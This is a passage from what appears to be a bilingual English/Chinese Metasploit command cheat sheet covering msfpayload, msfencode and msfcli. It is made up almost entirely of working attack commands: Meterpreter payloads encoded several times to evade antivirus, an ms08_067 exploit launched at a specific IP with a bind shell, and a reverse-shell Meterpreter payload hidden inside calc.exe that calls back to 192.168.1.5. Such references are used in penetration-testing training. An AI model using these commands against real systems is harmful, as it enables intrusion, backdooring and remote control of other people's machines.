 `msfpayload windows/meterpreter/bind_tcp LPORT=443 J > payload.java`
Export as %u encoded JavaScript.
导出成以%u编码方式的JavaScript语言字符串。

## 四、MSFencode命令

`msfencode -h`
Display the msfencode help.
列出MSFencode的帮助信息。

`msfencode -l`
List the available encoders.
列出所有可用的编码器。

`msfencode -t (c, elf, exe, java, js_le, js_be, perl, raw, ruby, vba, vbs, loop-vbs, asp, war, macho)`
Format to display the encoded buffer.
显示编码器缓冲区的格式。

`msfencode -i payload.raw -o encoded_payload.exe -e x86/shikata_ga_nai -c 5 -t exe`
Encode payload.raw with shikata_ga_nai five times and export it to an output file named encoded_payload.exe.
使用shikata_ga_nai编码器对payload.raw文件进行5次编码，然后导出一个名为encoded_payload.exe的文件。

`msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -e x86/ _countdown -c 5 -t raw | msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded_payload.exe`
Create a multi-encoded payload.
创建一个经过多重编码格式签到编码的攻击载荷。

`msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c`
Create pure alphanumeric shellcode where ESI points to the shellcode; output in C-style notation.
创建一个纯字母数字的shellcode，由ESI寄存器执行shellcode，以C语言格式输出。

## 五、MSFcli命令

`msfcli | grep exploit`
Show only exploits.
仅列出渗透攻击模块。

`msfcli | grep exploit/windows`
Show only Windows exploits.
仅列出与Windows相关的渗透攻击模块。

`msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E`
Launch  ms08_067_netapi exploit at 172.16.32.142 with a bind_tcp payload being delivered to listen on port 443.
对172.16.32.142发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听。

## 六、Metasploit高级忍术

```bash
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe
```
创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机的443端口，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序paylaod.exe
